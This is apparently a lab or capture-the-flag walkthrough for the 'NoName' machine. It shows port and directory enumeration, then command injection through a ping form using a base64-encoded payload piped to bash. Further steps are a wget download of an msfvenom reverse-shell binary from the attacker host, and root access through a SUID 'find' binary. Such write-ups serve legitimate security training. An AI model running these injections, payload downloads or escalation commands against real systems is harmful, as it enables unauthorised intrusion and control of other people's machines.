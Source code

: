 ## NoName: Writeup

Only port 80 is open:

```bash
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

If I go to the website, it openly says the functionality is fake. Burp seems to confirm this.

I fuzz the web root:

```bash
$ gobuster dir -u http://192.168.196.15/ -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 100 -x php,txt,zip,bak
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.196.15/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Extensions:              bak,php,txt,zip
[+] Timeout:                 10s
===============================================================
2023/03/07 11:31:58 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 279]
/.htaccess.php        (Status: 403) [Size: 279]
/.htaccess.txt        (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/.htaccess.bak        (Status: 403) [Size: 279]
/.htaccess.zip        (Status: 403) [Size: 279]
/.htpasswd.txt        (Status: 403) [Size: 279]
/.htpasswd.zip        (Status: 403) [Size: 279]
/.htpasswd.bak        (Status: 403) [Size: 279]
/.htpasswd.php        (Status: 403) [Size: 279]
/admin                (Status: 200) [Size: 417]
/index.php            (Status: 200) [Size: 201]
/server-status        (Status: 403) [Size: 279]
/superadmin.php       (Status: 200) [Size: 152]
```

`/admin` contains nothing special. `/superadmin.php` provides functionality with ping. If I insert my IP, I get a hit:

```bash
$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
11:33:46.304740 IP 192.168.196.15 > 192.168.45.5: ICMP echo request, id 2475, seq 1, length 64
11:33:46.304757 IP 192.168.45.5 > 192.168.196.15: ICMP echo reply, id 2475, seq 1, length 64
11:33:47.307139 IP 192.168.196.15 > 192.168.45.5: ICMP echo request, id 2475, seq 2, length 64
11:33:47.307157 IP 192.168.45.5 > 192.168.196.15: ICMP echo reply, id 2475, seq 2, length 64
11:33:48.308836 IP 192.168.196.15 > 192.168.45.5: ICMP echo request, id 2475, seq 3, length 64
11:33:48.308859 IP 192.168.45.5 > 192.168.196.15: ICMP echo reply, id 2475, seq 3, length 64
```

The trick is to get command injection here. This is what the request looks like unedited:

`pinger=http://192.168.45.5&submitt=Submit+Query`

You can get command injection if you prepend `|`

`pinger=|whoami&submitt=Submit+Query`

![1](screenshots/1.png)

I played with multiple reverse shell payloads, none of which worked straight out of the box. I decided to create a reverse shell binary, transfer it to the machine, set its permissions to execute, then called it. I encoded all commands into base64, then decoded them before piping them to bash. 

This is the generic payload:

`pinger=|echo <BASE64_COMMANDS> | base64 -d | bash&submitt=Submit+Query`

Here is the command to generate the reverse shell ELF:

```bash
$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.45.5 LPORT=443 -f elf -o shell
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 68 bytes
Final size of elf file: 152 bytes
Saved as: shell
```

The command to transfer the file to `/tmp`:

Original: `wget http://192.168.45.5/shell -O /tmp/shell`
Base64: `d2dldCBodHRwOi8vMTkyLjE2OC40NS41L3NoZWxsIC1PIC90bXAvc2hlbGw=`

Command to make the file executable:

Original: `chmod +x /tmp/shell`
Base64: `Y2htb2QgK3ggL3RtcC9zaGVsbA==`

Command to call the file after setting up a netcat listener:

Original: `/tmp/shell`
Base64: `L3RtcC9zaGVsbA==`

![2](screenshots/2.png)

I get a shell as www-data and collect local.txt:

![3](screenshots/3.png)

```bash
www-data@haclabs:/home/yash$ cat local.txt
7bbeeebf8dd8fea92abd2b07c38396ba
www-data@haclabs:/home/yash$ whoami
www-data
www-data@haclabs:/home/yash$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@haclabs:/home/yash$ hostname
haclabs
www-data@haclabs:/home/yash$ hostname -I
192.168.196.15
```

Searching for SUID binaries, I see that `find` is set:

```bash
www-data@haclabs:/tmp$ find / -perm -4000 2>/dev/null
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/sbin/pppd
/usr/bin/pkexec
/usr/bin/find
```

I can become root with this command:

`find . -exec /bin/sh -p \; -quit`

Collect root.txt:

![4](screenshots/4.png)
